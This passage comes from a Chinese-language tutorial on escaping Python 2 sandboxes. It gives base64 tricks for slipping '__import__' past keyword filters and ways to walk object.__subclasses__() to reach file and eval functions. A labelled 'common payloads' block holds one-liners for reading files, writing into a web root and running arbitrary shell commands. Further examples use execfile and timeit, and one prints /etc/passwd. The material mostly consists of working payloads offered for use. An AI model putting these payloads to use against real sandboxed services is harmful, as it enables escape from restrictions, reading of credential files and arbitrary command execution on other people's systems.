 进而，我们可以通过`__dict__`引入我们想要引入的模块

两种方法都是一个目的,那就是列出一个模组/类/对象 下面 所有的属性和函数
这在沙盒逃逸中是很有用的,可以找到隐藏在其中的一些东西
我们可以通过`__dict__`做什么呢？
一个模块对象有一个由字典对象实现的命名空间…属性引用被转换为这个字典中的查找，例如，m.x等同于m.dict["x"]

绕过实例：
首先通过 base64 绕过字符明文检测
```python
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
>>> base64.b64encode('os')
'b3M='
```
然后通过 **__dict__** 引用
```py
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
```

*如果一些 内敛函数在 __builtins__ 删除 ，我们可以通过 reload(__builtins__) 重新载入获取一个完整的 __builtins__*
## 0x03 创建对象，以及引用
Python 的 object 类中集成了很多的基础函数，我们想要调用的时候也是可以通过创建对象进而引用

有常见的两个方法
```bash
().__class__.__bases__[0]
''.__class__.__mro__[2]
```
![](http://oayoilchh.bkt.clouddn.com/18-5-3/14928461.jpg)
如，我们可通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/etc/services").read()`达到文件读取的效果，

**常见payload**
```py
#读文件
().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()

#写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

#执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
```
## 0x04 其他危险的函数
如 **execfile** 文件执行
```py
>>> execfile('/usr/lib/python2.7/os.py')
>>> system('cat /etc/passwd')
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
>>> getcwd()
'/usr/lib/python2.7'
```
**timeit**
```py
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
```

